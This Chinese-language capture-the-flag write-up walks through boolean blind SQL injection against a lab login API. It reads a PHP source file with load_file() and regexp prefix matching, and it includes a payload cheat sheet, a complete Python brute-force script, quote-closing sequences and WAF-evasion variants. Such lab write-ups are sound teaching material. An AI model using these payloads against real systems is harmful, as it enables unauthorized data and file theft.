

## 一句话概括

页面**不返回数据库内容**，但对「查到了」和「没查到」会给出**两种不同的文案**。把待测条件塞进查询里，看回显是哪一种，就能一位一位地把数据「问」出来。

## 本题情景与解题手法

### 题目形态

一个登录页，前端把表单 `POST` 到 `/api/`，参数是 `username` 和 `password`，后端返回 JSON：

```http
POST /api/ HTTP/1.1
Host: 靶机地址
Content-Type: application/x-www-form-urlencoded

username=admin&password=123
```

响应：

```json
{"code":0,"msg":"密码错误","count":0,"data":[]}
```

### 第一步：确认注入点在后端且是拼接的

先随便填一对账号密码：`admin / 123`，回显「**密码错误**」。

这说明：`admin` 这个用户在表里**是存在的**，只是密码不对。后端很可能执行的是：

```sql
select pass from ctfshow_user where username = 'admin'  -- 或者没引号
```

既然 `username` 被拼进了 SQL，就有注入的余地。

### 第二步：判断注入类型 —— 数字型，且无引号

| 发包 | 回显 | 说明 |
|---|---|---|
| `username=0&password=0` | 密码错误 | 命中了记录 |
| `username=1&password=0` | 查询失败 | 没命中记录 |

两个请求回显**不一样** → 具备盲注条件。

更重要的是：`username=0` 能命中，说明拼接时 **`username` 外面没有引号**（是数字型注入）。如果外面包了引号，`username=0` 会被当成字符串 `'0'` 去比，就不会出现"命中所有非数字开头用户名"这种现象。

### 第三步：验证可以用 `if()` 控制命中与否

```http
username=if(1=1,0,1)&password=0     → 密码错误（条件真 → 返回 0 → 命中）
username=if(1=2,0,1)&password=0     → 查询失败（条件假 → 返回 1 → 不命中）
```

到这里，**一个"回显可控的布尔开关"就做好了**：把任意条件塞进 `if()` 的第一个参数，看回显即可知道真假。

### 第四步：确定这道题要的东西在哪

这道题的 flag **不在数据库表里**，而是写在 **`/var/www/html/api/index.php` 这个文件的源码内容**里。

所以数据来源不是 `database()` / `table`，而是 **`load_file()`** —— 这就是本题注入手法的核心：**用 SQL 的文件读取函数把源文件当字符串读出来，再一位位判断**。

### 第五步：构造本题的注入 payload

把「文件内容」当日志串，用 `regexp` 做**前缀匹配**：

```sql
if(load_file('/var/www/html/api/index.php') regexp 'ctfshow{a', 0, 1)
```

效果：

- 若文件里确实存在子串 `ctfshow{a` → 条件真 → 返回 0 → 页面「密码错误」
- 若不存在 → 条件假 → 返回 1 → 页面「查询失败」

于是每多试一个字符，就能把 flag **从前往后一位位拼出来**。

### 第六步：手工验证第一个字符，再上脚本

先手工发一个包确认思路成立（假设已知前缀是 `ctfshow{`）：

```http
username=if(load_file('/var/www/html/api/index.php')regexp'ctfshow{a',0,1)&password=0
```

如果回「密码错误」，说明下一位就是 `a`；再试 `ctfshow{ab`……确认可行后，用下面的脚本自动化。

### 注入手法一句话总结

> **数字型注入点（无引号拼接）** → 用 `if(条件,0,1)` 把真假映射成"命中/不命中" → 用回显文案差异读出真假 → 条件里用 `load_file()` 读源码 + `regexp` 前缀匹配 → 逐字符爆破出 flag。

## 原理

### 1. 注入点的原始查询长这样

```sql
select pass from ctfshow_user where username = {$username}
```

注意 `{$username}` 外面**没有引号**，是直接拼进 SQL 的 —— 这是整个漏洞成立的前提。

### 2. 关键机制：MySQL 在数字上下文里会把字符串当 0

这一条是布尔盲注能"无中生有"的根源，原文只写了结论，这里补上推导：

当 `username` 位置上是一个**数字字面量**时，MySQL 会把要比较的列值按数字来比：

| 输入 | 实际执行的比较 | 结果 |
|---|---|---|
| `username = 0` | `'admin' = 0` → `'admin'` 转数字得 `0` → `0 = 0` | **成立**，命中所有不以数字开头的用户名 |
| `username = 1` | `'admin' = 1` → `0 = 1` | 不成立；只有用户名字面就是 `1` 或以 `1` 开头（字符串转数字得 1）才命中 |

也就是说：

- `username = 0` → **必定至少命中 admin**（它的名字转数字是 0）
- `username = 1` → **必定查不到**（除非真有用户叫 `1`）

这两个值天然构成了"恒真"和"恒假"两个可控状态。

### 3. 应用层把这两个状态暴露成了两种文案

```php
$result = mysqli_query($sql);
if (mysqli_num_rows($result) > 0) {
    $row = mysqli_fetch_assoc($result);
    if ($row['pass'] == $password) {
        echo "登陆成功";
    } else {
        echo "密码错误";   // 情况1：查到了记录，但密码不对
    }
} else {
    echo "查询失败";       // 情况2：一条记录都没查到
}
```

于是：

- **查到记录** → 走进 `if` 分支 → 密码随便填个错的 → 回显 **「密码错误」**
- **没查到记录** → 走进 `else` 分支 → 回显 **「查询失败」**

回显文案 = 查询是否命中的信号位。

### 4. 把"条件"塞进 username 位置

`if(条件, 0, 1)` 的作用是把**真假映射成 0 或 1**：

- 条件为真 → 返回 `0` → `username = 0` → 命中 admin → 回显「密码错误」
- 条件为假 → 返回 `1` → `username = 1` → 查不到 → 回显「查询失败」



## 利用条件

要让这套方法成立，需要同时满足：

1. **注入点无回显**：页面不打印查询结果，否则直接用联合查询更快
2. **有可区分的响应差异**：文案不同、状态码不同、响应长度不同、响应时间不同 —— 任何一种都行（只有时间差异时叫**时间盲注**）
3. **能执行 `if()` / 逻辑表达式**：即 `select`、`and`、`or`、`if` 等没被完全过滤
4. **有读取数据的能力**：常用 `load_file()`、`substr()`、`regexp`、`ascii()` 组合

## Payload 速查

| 目的 | Payload |
|---|---|
| 探测注入点是否可控 | `if(1=1,0,1)` 回「密码错误」；`if(1=2,0,1)` 回「查询失败」 |
| 猜解字符串前缀（正则） | `if(load_file('/var/www/html/api/index.php') regexp 'ctfshow{a', 0, 1)` |
| 逐字符猜解（截取） | `if(substr(database(),1,1)='c', 0, 1)` |
| 逐字符猜解（ASCII） | `if(ascii(substr(database(),1,1))>100, 0, 1)` |
| 二分法加速 | `if(ascii(substr(database(),1,1))>127, 0, 1)` |

> 用 `regexp` 做**前缀匹配**比 `substr` 逐位比对更省请求：一次就能确认"当前已猜出的前缀 + 新字符"是否存在。

## 完整利用脚本

```python
import requests

url = "http://靶场地址/api/"      # 靶机地址，原文中为 127.0.0.1:5xxxx

# ---------- 第一步：确认两种状态的文案差异 ----------
print("=== 测试基础逻辑 ===")

# if(真,0,1) = 0 -> username=0 -> 命中 admin -> 密码错误
r = requests.post(url, data={"username": "0", "password": "0"})
print(f"0/0: {r.text}")

# if(假,0,1) = 1 -> username=1 -> 无记录 -> 查询失败
r = requests.post(url, data={"username": "1", "password": "0"})
print(f"1/0: {r.text}")

# ---------- 第二步：逐字符爆破 ----------
print("\n=== 开始盲注 ===")

flag = "ctfshow{"
charset = "0123456789abcdefghijklmnopqrstuvwxyz_-}"

for position in range(len(flag), 50):        # 最多猜 50 个字符
    found = False

    for char in charset:
        # 构造 payload：测试「已猜前缀 + 当前字符」是否在文件里
        payload = (
            f"if(load_file('/var/www/html/api/index.php')"
            f"regexp'{flag + char}',0,1)"
        )
        r = requests.post(url, data={"username": payload, "password": "0"})

        # 「密码错误」= 条件为真 = 该前缀存在
        if "密码错误" in r.text:
            flag += char
            print(f"[+] 命中字符: {char} -> 当前: {flag}")
            found = True
            if char == '}':
                print(f"[*] Flag 完成: {flag}")
                raise SystemExit
            break

    if not found:
        print(f"[-] 第 {position} 位未匹配到字符，停止")
        break

print(f"最终结果: {flag}")
```

> 脚本里的匹配串是 `密码错误`，注意响应实际返回的是 **Unicode 转义**（见下），`requests` 已经自动解码成中文字符串，所以直接比较中文即可。

## SQL 层推导：0/0 与 1/0 为什么结果不同

### 情况 1：`username = 0/0`

```sql
-- 输入 username=0, password=0
select pass from ctfshow_user where username = 0
-- 'admin' = 0 成立 → 返回 admin 的密码
-- 再比较 $row['pass'] == '0' → 不相等
-- 输出「密码错误」
```

### 情况 2：`username = 1/0`

```sql
-- 输入 username=1, password=0
select pass from ctfshow_user where username = 1
-- 没有用户名为 1 的用户 → 无记录
-- 输出「查询失败」
```

### 实测回显

`username=0&password=1` 返回：

```json
{"code":0,"msg":"\u5bc6\u7801\u9519\u8bef","count":0,"data":[]}
```

`\u5bc6\u7801\u9519\u8bef` 解码后就是「密码错误」。

`username=1&password=0` 返回：

```json
{"code":0,"msg":"\u67e5\u8be2\u5931\u8d25","count":0,"data":[]}
```

`\u67e5\u8be2\u5931\u8d25` 解码后是「查询失败」。

## 排错：布尔 payload 不生效时怎么定位

布尔盲注的前置条件是「能构造出两种可区分的回显」。如果发出去的 payload（如 `?id=1' and '1'='1' --+`）直接报错或毫无反应，说明**前置条件还没建立**，此时不要继续往下猜数据，先按下面顺序定位。

### 可能原因

1. **闭合方式错误**（最常见）：原 SQL 未必用单引号包裹。若原语句是 `WHERE id = "[输入]"`（双引号），而 payload 写的是 `'`，拼出来就是 `"1' and '1'='1' -- "` —— 双引号字符串里塞了个未转义的单引号，语法直接崩。

   此时按下面的序列逐个试：

   ```sql
   ?id=1' --+
   ?id=1" --+
   ?id=1') --+
   ?id=1") --+
   ?id=1')) --+
   ?id=1"} --+
   ```

2. **注释符无效**：有些环境不认 `--+`，换 `#` 或 `%23`；也可以试 `;` 截断。

   ```sql
   ?id=1' and '1'='1' #
   ?id=1' and '1'='1' %23
   ?id=1' and '1'='1';
   ```

3. **特殊过滤规则**：payload 命中了 WAF 关键词。

   ```sql
   ?id=1' && '1'='1' --+       -- 用 && 代替 and
   ?id=1' AnD '1'='1' --+      -- 大小写混淆
   ?id=1'/**/and/**/'1'='1'--+ -- 用 /**/ 代替空格
   ?id=1'%0Aand%0A'1'='1'--+   -- 用换行符代替空格
   ```

### 系统化诊断步骤

```text
步骤1：验证注释符本身
    ?id=1' --+      （这一步就报错 → 是注释符/闭合的问题）
    ?id=1' #        （换一种注释符再试）

步骤2：简化条件
    ?id=1' and 1 --+    （连 '1'='1' 都省掉，做最简布尔测试）
    ?id=1' or 1 --+     （换逻辑运算符）

步骤3：逐个组件拆开测
    ?id=1' --+              测试注释符
    ?id=1' and '1'='1       去掉注释，看报错信息
    ?id=1' and 1=1 --+      不用字符串比较
```

### 按错误信息定位

| 回显 | 可能原因 |
|---|---|
| `You have an error in your SQL syntax` | 闭合方式错误 / 注释符不被支持 / 数据库版本特殊语法 |
| 不报错但没有结果 | 目标 id 本身不存在，或被其它 WHERE 条件过滤 |
| `403 Forbidden` / 直接被拦 | 命中 WAF 攻击特征，或应用层过滤 |

> 判断口诀：**先保证「注释符 + 闭合符」这一个组合能让你"合法地什么都不做"，再加布尔条件。** 顺序反了，就会把闭合错误误判成"布尔注入不可用"。

## 踩坑与备注

- **判据要挑稳的**：如果两种状态的**响应长度**差异明显，用长度判断比匹配中文更抗干扰。
- **`load_file()` 需要权限**：`secure_file_priv` 为空或指向目标目录时才读得到文件；否则考虑改用 `database()`、`user()` 等无需文件权限的函数练手。
- **原文的 `username=0` 依赖 admin 存在**：若用户表里没有名字转数字为 0 的记录，恒真分支就不成立，需要换其他恒真条件（如 `if(1=1,0,1)` 配合 `or`）。
- **脚本效率**：`regexp` 前缀法每个字符最坏 38 次请求；若数据量大，改用 ASCII 二分法（每字符约 7 次请求）。
